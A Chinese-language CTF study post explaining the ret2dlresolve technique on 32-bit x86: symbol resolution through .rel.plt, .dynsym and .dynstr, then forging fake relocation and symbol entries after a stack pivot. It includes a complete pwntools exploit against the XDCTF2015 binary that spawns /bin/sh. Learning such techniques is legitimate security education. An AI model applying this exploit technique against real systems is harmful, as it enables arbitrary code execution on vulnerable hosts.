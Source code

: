 # pwn初学者的进阶（二）：ret2dlresolve学习记录


花了一个上午时间，看了一下ret2dlresolve的基本原理与基本的利用过程。觉得步骤与相关细节要素还是蛮多的，为防止今后某一天再用到的时候忘得干干净净，特此记录一些我个人的理解，加深印象。

<!--more-->

## 0x00 dlresolve原理

以下内容是32位x86平台相关，64位的ret2dlresolve我还没看。

这一部分内容需要记住的就是符号解析的过程，也是dlresolve执行的过程，同时也是ret2dlresolve生效的核心原理。

在符号解析过程中，有三种数据结构：`ELF32_Rel`、`ELF32_sym`、`.dynstr中的字符串`，分别位于`.rel.plt`、`.dynsym`、`.dynstr`节（section），查看这些节的命令为

```bash
readelf -S elf_name
```

在程序第一次调用某个函数时，关于plt处指令以及push操作什么的就不细说了，我认为整个流程大致可以这么理解：

- `func@plt`处的指令相当于先push一个`offset`值，然后调用`plt[0]`处的指令，这条指令相当于执行`_dl_runtime_resolve(link_map_obj, reloc_index)`，这里的`reloc_index`就是前面`func@plt`push的`offset`

- 接下来就是三步走了，从函数原型`_dl_runtime_resolve(link_map_obj, reloc_index)`出发，根据`reloc_index`（相对于`.rel.plt`的字节偏移量，单位：字节）找到`.rel.plt`中的`ELF32_Rel`对象（大小为8字节），其中记录了一个`r_info`
- 再根据`r_info`（相对于`.dynsym`的索引，单位：0x10字节）找到`.dynsym`中的`ELF32_sym`类型对象（大小为0x10字节）
- 再根据`ELF32_sym`中的`st_name`字段（相对于`.synstr`的字节偏移量，单位：字节），找到`.dynstr`中的字符串，也就是函数名（正常执行流程是这样的），然后dlresolve从libc中查找，再计算实际地址，将其填入`ELF32_Rel`对象中的`r_offset`字段...

整个流程概括起来就是，`func@plt`给`_dl_runtime_resolve`传参数，`_dl_runtime_resolve`根据其参数去查询上面的那几个表获取函数名称，然后对libc进行解析，获取实际地址，写入got表。

## 0x01 攻击方法

感觉很多题都可以栈迁移，再加上如果`.bss`段可写的话，我们就可以控制将函数栈迁移到自己构造的栈上。

 于是，最常规的攻击步骤就是：

- 栈迁移，然后调用`plt[0]`处指令
- 控制栈上的参数（对于`_dl_runtime_resolve`而言），以及想要调用的函数的参数（比如`system`）
- 再在栈上构造对应该参数的`ELF32_Rel`类型对象
- 再在栈上构造对应`ELF32_Rel`中`r_info`的`ELF32_sym`类型对象
- 再在栈上构造对应于`ELF32_sym`中`st_name`的字符串

所以一个典型的exp为：

```python
from pwn import *
elf = ELF('./parelro_x86')
offset = 112
read_plt = elf.plt['read']

ppp_ret = 0x08048619 # ROPgadget --binary bof --only "pop|ret"
pop_ebp_ret = 0x0804861b # ROPgadget --binary parelro_x86 | grep 'pop ebp ; ret'
leave_ret = 0x08048458 # ROPgadget --binary bof --only "leave|ret"

stack_size = 0x800
bss_addr = 0x0804a040 # readelf -S bof | grep ".bss"
plt_0 = 0x08048380 # objdump -d -j .plt bof  执行 <push link_map，jmp dl_resolve>
rel_plt = 0x08048330 # objdump -s -j .rel.plt bof

# 栈迁移的目的地
base_stage = bss_addr + stack_size

index_offset = (base_stage + 28) - rel_plt # base_stage + 28指向fake_reloc，减去rel_plt即偏移
write_got = elf.got['write']
dynsym = 0x080481d8
dynstr = 0x08048278

# fake_sym_addr 地址按照0x10字节对齐
fake_sym_addr = base_stage + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf) # 这里的对齐操作是因为dynsym里的Elf32_Sym结构体都是0x10字节大小
fake_sym_addr = fake_sym_addr + align

index_dynsym = (fake_sym_addr - dynsym) // 0x10 # 除以0x10因为Elf32_Sym结构体的大小为0x10，得到write的dynsym索引号
r_info = (index_dynsym << 8) | 0x7 # 要满足：ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT，即最低字节要为7
fake_reloc = p32(write_got) + p32(r_info)
st_name = (fake_sym_addr + 0x10) - dynstr # 加0x10因为Elf32_Sym的大小为0x10
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)


r = process('./parelro_x86')

r.recvuntil('Welcome to XDCTF2015~!\n')
payload = b'A' * offset
payload += p32(read_plt) # 读100个字节到base_stage
payload += p32(ppp_ret)
payload += p32(0)
payload += p32(base_stage)
payload += p32(100)
payload += p32(pop_ebp_ret) # 把base_stage pop到ebp中
payload += p32(base_stage)
payload += p32(leave_ret) # mov esp, ebp ; pop ebp ;将esp指向base_stage
r.sendline(payload)

cmd = b"/bin/sh"

# stage3: 
# 栈迁移，调plt[0]，传入伪造的 index_offset，指向我们自定义的.rel.plt表项内容
# 并且控制r_info，指向我们伪造的.dynsym表项；再控制.dynsym表项中的st_name，指向我们控制的.dynstr表项内容
# --------> base_stage
payload2 = b'AAAA'
payload2 += p32(plt_0)
payload2 += p32(index_offset)
payload2 += b'AAAA'
payload2 += p32(base_stage + 80) # 对应system('/bin/sh')
payload2 += p32(0xdeadbeef) # 后面的2个参数不需要了
payload2 += p32(0xdeadbeef)
# (base_stage+28)的位置
payload2 += fake_reloc
# (base_stage+36)的位置
payload2 += b'B' * align
# (fake_sym_addr)的位置
payload2 += fake_sym
payload2 += b"system\x00"
payload2 += b'A' * (80 - len(payload2))
# base_stage + 80
payload2 += cmd + b'\x00'
payload2 += b'A' * (100 - len(payload2))
# payload2结束，刚好100字节

r.sendline(payload2)
r.interactive()
```

写一遍下来，感觉在没有完完全全弄透彻的情况下，通过文字描述清晰还是比较难的，但也只能先这样了:no_mouth:



## 参考链接：

- ctf竞赛权威指南(pwn篇) 10.6 ret2dl-resolve
- [Return-to-dl-resolve](http://pwn4.fun/2016/11/09/Return-to-dl-resolve/) （复现平台：ubuntu16）
- [CTF Wiki: ret2dlresolve](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/advanced-rop/ret2dlresolve/)
- [[原创]高级栈溢出之ret2dlresolve详解(x86&x64)，附源码分析](https://bbs.pediy.com/thread-266769.htm) （和上两篇博文差不多，但是_dl_runtime_resolve()的执行过程写得很清晰，给作者点个赞）


